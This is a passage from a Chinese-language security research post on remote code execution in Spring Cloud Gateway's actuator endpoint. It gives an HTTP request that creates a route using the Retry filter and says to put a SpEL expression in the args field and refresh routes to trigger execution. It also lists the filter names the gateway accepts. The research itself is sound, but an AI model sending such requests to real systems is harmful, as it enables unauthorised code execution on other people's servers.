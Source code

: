 这条链也是大多使用的链。之前看到文章说只有 `AddResponseHeader`过滤器能用，但是现在看到`Retry`过滤器也能用，让我多了一些想法。

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 335

{
    "id": "first_route",
    "predicates": [],
    "filters": [{
        "name": "Retry",
        "args": 
            {
                "name": "payload",
                "value": "123"
            }
    }],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```

通过路由匹配 args 参数来执行 RCE。将 args 参数中的 `payload`替换成 spel 表达式。  
刷新路由，触发RCE。

![5.1.1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-39f42b2adf811482af88b074c49a8ffbcfc4c18a.png)

**不得不产生疑问了，真的是只有**`AddResponseHeader`**和**`Retry`**过滤器才能用？不能有其他的过滤器？**

#### 1. 研究限制点：

spring-cloud-gateway 在保存路由定义信息时，会进行校验，校验 filters 的 name 参数，是否与内置的工厂名字相同。也就是在前置知识中路由信息类提到的各种工厂名称。

```java
// 校验路由匹配信息 name 
private boolean isAvailable(FilterDefinition filterDefinition) {
    return GatewayFilters.stream()
            .anyMatch(gatewayFilterFactory -> filterDefinition.getName().equals(gatewayFilterFactory.name()));
}
```

梳理出了所有**合法过滤器名称**。

```txt
AddRequestHeader
MapRequestHeader
AddRequestParameter
AddResponseHeader
ModifyRequestBody
DedupeResponseHeader
ModifyResponseBody
CacheRequestBody
PrefixPath
PreserveHostHeader
RedirectTo
RemoveRequestHeader
RemoveRequestParameter
RemoveResponseHeader
RewritePath
```